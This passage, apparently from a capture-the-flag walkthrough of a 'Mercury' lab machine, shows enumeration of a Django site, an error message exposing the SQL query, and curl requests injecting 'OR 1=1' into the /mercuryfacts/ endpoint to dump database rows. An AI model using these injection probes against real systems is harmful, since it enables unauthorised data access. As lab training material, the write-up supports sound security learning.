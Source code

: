 The output was a Django 404 page, which is useful as it reveals the Django version and URL patterns. The page indicated:

- `Django Version: 3.1`
- URL patterns: `[name='index']`, `robots.txt [name='robots']`, `mercuryfacts/`


I then accessed the `/mercuryfacts/` endpoint:

```shellscript
curl http://192.168.1.20:8080/mercuryfacts/
```

This page showed:

```html
<html><head><title> Mercury Facts </title></head><body><img src="/static/mercury_facts/mercury_1.jpg" alt="Picture of Mercury" width="400" height="400"><br />Still in development.<ul>        <li> Mercury Facts: <a href='/mercuryfacts/1'> Load a fact. </a> </li>        <li> Website Todo List: <a href='/mercuryfacts/todo'> See list. </a> </li></ul></body></html>
```

This indicated a "Mercury Facts" section with a link to `/mercuryfacts/1`. Accessing this URL showed:

```shellscript
curl http://192.168.1.20:8080/mercuryfacts/1/
```

Output: `Fact id: 1. (('Mercury does not have any moons or rings.',),)`

This `mercuryfacts/` endpoint, taking a numerical ID, was a prime candidate for SQL injection.

## Initial Foothold (SQL Injection & SSH)

### SQL Injection

I tested the `/mercuryfacts/` endpoint for SQL injection by appending a non-numeric string, which resulted in a Django `OperationalError` revealing the underlying SQL query:

```shellscript
curl http://192.168.1.20:8080/mercuryfacts/sdfqsdf/
```

The error message included: `(1054, "Unknown column 'sdfqsdf' in 'where clause'")` and the query: `SELECT fact FROM facts WHERE id = sdfqsdf`. This confirmed a SQL injection vulnerability.

I then used `sqlmap` to automate the process, though it initially struggled with the URI injection. Manual testing with `curl` proved more effective.

First, I confirmed the injection with a simple `OR 1=1`:

```shellscript
curl "http://192.168.1.20:8080/mercuryfacts/1%20OR%201%3D1/"
```

Output: `Fact id: 1 OR 1=1. (('Mercury does not have any moons or rings.',), ('Mercury is the smallest planet.',), ...)`
This successfully returned all facts, confirming the injection.
